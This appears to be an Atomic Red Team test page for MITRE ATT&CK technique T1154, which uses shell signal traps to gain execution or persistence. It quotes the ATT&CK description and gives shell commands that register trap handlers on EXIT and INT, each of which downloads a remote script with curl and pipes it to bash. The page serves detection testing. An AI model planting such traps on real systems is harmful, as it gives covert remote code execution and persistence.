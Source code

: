 # T1154 - Trap
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1154)
<blockquote>The <code>trap</code> command allows programs and shells to specify commands that will be executed upon receiving interrupt signals. A common situation is a script allowing for graceful termination and handling of common  keyboard interrupts like <code>ctrl+c</code> and <code>ctrl+d</code>. Adversaries can use this to register code to be executed when the shell encounters specific interrupts either to gain execution or as a persistence mechanism. Trap commands are of the following format <code>trap 'command list' signals</code> where "command list" will be executed when "signals" are received.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Trap](#atomic-test-1---trap)


<br/>

## Atomic Test #1 - Trap
After exiting the shell, the script will download and execute.

After sending a keyboard interrupt (CTRL+C) the script will download and execute.

**Supported Platforms:** macOS, CentOS, Ubuntu, Linux


#### Run it with `sh`! ```
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' EXIT
exit
trap 'nohup curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1154/echo-art-fish.sh | bash' INT
```
<br/>
